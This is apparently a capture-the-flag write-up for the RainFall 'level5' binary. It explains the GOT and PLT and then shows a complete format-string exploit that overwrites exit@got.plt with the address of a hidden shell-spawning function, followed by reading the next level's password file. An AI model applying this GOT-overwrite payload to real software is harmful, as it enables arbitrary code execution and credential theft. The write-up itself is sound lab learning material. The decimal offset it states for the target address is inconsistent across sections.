

# level5

```sh
➜  ~ ssh level5@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level5@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
level5@RainFall:~$
```

# _I love [Noah](https://github.com/noalexan)'s fe..._

```sh
level5@RainFall:~$ ./level5
Saboady arc
Saboady arc
level5@RainFall:~$ ./level5 Ohara
Laugh Tale
Laugh Tale
level5@RainFall:~$
```



1. The `main` function execute the `n` function without return.
2. The `n` function open the standard input and stock it in a buffer of `520 char`, call the `printf` function for display the content of the buffer, then call the `exit` function.
3. A third function is present but never called : the `o` function which launch a `shell` with the `system` function.

## _Mmmh... A `Buffer Overflow Attack` or a `Format String Attack` ?_

Anyway, we need to find a way to call the `o` function it's obvious. But no way to attack the program by the `Buffer Overflow Attack`, none of the functions is vulnerable to this kind of attack.

For the third time, the **Format String Attack** seems to be the correct way to reach our objectif when we see how `printf` is used.

# Vulnerability: <u>Format String Attack, but more advanced</u>

At first, we can notice there is the program gives us no way to launch the `o` function normally, no variable to overwrite.

## _What we can overwrite ?_

### It's time to introduce the **[Global Offset Table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table)** and the **[Procedure Linkage Table (PLT)](https://maskray.me/blog/2021-09-19-all-about-procedure-linkage-table)**.

First at all, we seeing some lexic and there definitions :

- **GOT** : Global Offset Table

- **PLT** : Procedure Linkage Table
- **Symbole** : A variable or a function
- **Statically linked** : The address of the function is known at compile time. <u>All the functions called by an external library are compiled in the binary</u>
- **Dynamically linked** : The address of the function is known at runtime. The address of the function is resolved by the loader at runtime, and not at compile time, so the binary is more lightweight. <u>All the functions called by an external library are not compiled in the binary</u>
- **PLT Stub** : The PLT is a table of stub functions. Each stub in the PLT corresponds to a function in a shared library. Initially, these stubs do not point directly to the function in the shared library.
- **Lazy Binding** : When the program calls a function for the first time, the call is redirected to the corresponding PLT stub. The stub then calls the dynamic linker/loader, which resolves the actual address of the function in the shared library.
- **Updating the PLT** : Once the dynamic linker resolves the address, it updates the PLT stub to point directly to the resolved function address. Subsequent calls to the function go directly to the shared library function without involving the dynamic linker again.
- **`.so` file** : A file with the `.so` extension is a shared object file, commonly used in Unix-like operating systems such as Linux. Shared object files are dynamically linked libraries that contain compiled code which can be loaded and executed by programs at runtime.

## Global Offset Table (GOT)

- The **GOT** is a section of a computer program's (executables and shared libraries) memory used to enable computer program code compiled as an ELF file (a type of executable file) to run correctly, independent of the memory address where the program's code or data is loaded at runtime.

- The **GOT** holds addresses of functions that are dynamically linked. functions (like those in libc) are "linked" into the program so they can be saved once on disk and reused by every program.
- The **GOT** is represented in 2 section in the ELF file : `.got` and `.got.plt` which are loaded into the program's memory at startup ---> **This is why when we use `gdb` (for found the address of `system` previously) we will set a breakpoint before run the program, because the address of the function is not known at compile time but at runtime**. If the program wa compiled statically, the address of the function is known at compile time, so we can find it in the binary without run it.

[wikipedia](https://en.wikipedia.org/wiki/Global_Offset_Table)

## Procedure Linkage Table (PLT)

- The code never calls an external function directly but uses a **PLT** stub. This is due to **lazy binding**. When the dynamic linker loads a library, it places an identifier and resolution function in the GOT. On the first call to a function, it uses a default stub to call the dynamic linker, which then resolves the function's address and patches it into the GOT. Subsequent calls use the actual function address, bypassing the lookup stub.

[technovelty](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html)

### Exemple of how the PLT works :

1. The program calls `foo()`.
2. The call is **redirected** to the **PLT stub** for `foo()` (if we disassemble the function where `foo()` is called, we can see `<foo@plt>`, the function `foo()` from the PLT).
3. The PLT stub calls the **dynamic linker**.
4. The dynamic linker finds the address of `foo()` in `libfoo.so`.
5. The PLT stub is updated to point directly to `foo()` in `libfoo.so`.
6. The program continues execution, now calling `foo()` directly.

## What can we do with the PLT and the GOT ?

After konwing how the PLT and the GOT works, we can understand that we can overwrite the address of a function in the PLT by the address of another function in the GOT. What will happen is we will overwrite the address of the function in the PLT by the address of the function `o` in the GOT, so when the program will call the function in the GOT, it will call the function `o` instead.

1. **<u>Finding ther address of `exit@got.plt`</u>** : We need to find the address of the `exit` function in the `GOT.PLT` section. It's here were is the pointer to the real address of the function `exit` stocked in the `GOT` (and technically in the `libc`).

2. **<u>Finding the address of the `o` function</u>** : No need to explain why we need to find that.

3. **<u>Finding the padding</u>** : We need to know where the buffer is stocked in the `memory stack`.

4. **<u>Overwriting the address of `exit<got.plt>` by the address of the `o` function</u>** : Use of the `%n` format string to write the address of the `o` function in the `exit<got.plt>`.

5. **<u>The final payload</u>** : The time where we test our payload.

## 1. Finding the address of `exit@got.plt`

Let's go little by little : **First**, find the address of `exit@plt`, **then** find the address of `exit@got.plt`.

```sh
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) disass 0x8049838
Dump of assembler code for function exit@got.plt:
   0x08049838 <+0>:	(bad)
   0x08049839 <+1>:	addl   $0xffffffe6,(%eax,%ecx,1)
End of assembler dump.
(gdb)
```

The function `exit@plt` is call in the `n` function (we have seen that previously), and we can disassemble the function `exit@plt`, we noticed it's only a redirection to the function `exit@got.plt`, and it's this address to overwrite.

### We have it ! The address of `exit@got.plt` is `0x08049838`.

> You noticed that the address of `exit` was find while the program wasn't running. It's because a `plt` function is only a redirection to the `got.plt` section (and here the real function is call), so the address of the function is known at compile time. We can even see all functions used by using the command `info functions` in `gdb` :
```sh
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb)
```
> But if we do the command `info proc map`, none of the external library functions are present, because they are dynamically linked, so the address of the function is resolved at runtime :
```sh
(gdb) info proc map
No current process: you must name one.
(gdb)
```

## 2. Finding the address of the `o` function

As fast as __Kizaru__ :

```sh
(gdb) print o
$1 = {<text variable, no debug info>} 0x80484a4 <o>
(gdb)
```

### The address of the `o` function is `0x080484a4`.

## 3. Finding the padding

Classic things now ! :

```sh
level5@RainFall:~$ ./level5
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
level5@RainFall:~$
```

### Our buffer is stocked to the **4th place** in the stack.

## 4. Overwriting the address of `exit<got.plt>` by the address of the `o` function

If we have an overview of our actual payload we have this :
```sh
python -c print("\x38\x98\x04\x08"); cat # \x38\x98\x04\x08 : address of exit@got.plt
```

We need to place the address of the `o` function at the right place in the stack (4th), the address need to overwrite the address of `exit<got.plt>`.

Like the [level3](https://github.com/Nimpoo/rainfall/tree/main/level3), we will use the `%n` format string to overwrite the address of `exit<got.plt>`. Instead of the level3 where we need to write only an integer, here it's an address.

__How to do that ?__

By the same way simply, but we put an address, a **hexadecimal number exactly**, that's it. We put the **decimal of the address of the `o` function**, and with the string format `%x` we can convert it in hexadecimal. I used a [webdsite](https://www.rapidtables.com/convert/number/hex-to-decimal.html) to convert the decimal to hexadecimal.

And don't forget the address must be placed at the 4th place (for `printf`, the 4th argument) :

```sh
python -c 'print "\x38\x98\x04\x08" + "%134513828x%4$n"'; cat
```

## 5. The final payload

A little brief of the final payload :
- `\x38\x98\x04\x08` (`0x8049838`) : address of `exit@got.plt`, this is stocked in the buffer, and at the 4th place in the stack.

- `134513828` (`0x080484a4`) : address of the `o` function in decimal number, this is the address we want to overwrite the address of `exexit@got.plt`.

- `%134513828x` : it print this big number convert to hexadecimal (format string `%x`) of space before printing what we passed to `printf` (nothing here) (see the [level4](https://github.com/Nimpoo/rainfall/tree/main/level4) for more details).

- `%4$n` : the `%n` format string, the number `4` is the place of the address of the buffer in the stack, here our address of `exit@got.plt`

- `%134513828x%4$n` : the lengh of the string printed here is the **address of the `o` function in decimal convert on hexadecimal with the format strin `x`**. This lengh is write in the 4th argument of `printf`, so the 4th place in the stack : <u>**the address of `exit@got.plt`**</u>

### <u>Conclusion</u> : The address of `exit@got.plt` will be the address of the `o` function. The `exit@plt` redirect to `exit@got.plt`, and we overwrite it by the address of the `o` function.

## __Let's try this chimera__

```sh
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"'; cat) | ./level5
...
[130 MILLION OF SPACE LATER]
...
                                                                                                  200 # A random number is print, I can't explain why
whoami
level6
```

# WAAAAAHOOOOOOOOOOOOOOOOOO

Let's get the flag !

```sh
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31^C
level5@RainFall:~$
```

And go to the next level !

```
level5@RainFall:~$ su level6
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```

# level5 complet


